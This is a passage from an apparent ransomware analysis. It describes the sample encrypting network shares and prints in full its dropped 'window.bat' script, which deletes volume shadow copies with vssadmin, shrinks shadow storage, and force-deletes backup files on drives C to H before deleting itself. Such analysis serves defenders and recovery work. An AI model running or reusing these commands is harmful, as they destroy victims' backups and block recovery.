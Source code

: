 ![image-20200918163940923](Ransomeware_Recovery.assets/image-20200918163940923.png)

It then continues on to enumerate netResources and encrypts those files as well. After encryption, it creates another bat file called **window.bat** to delete shadow volume and backup files. Here is its content:

```
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```
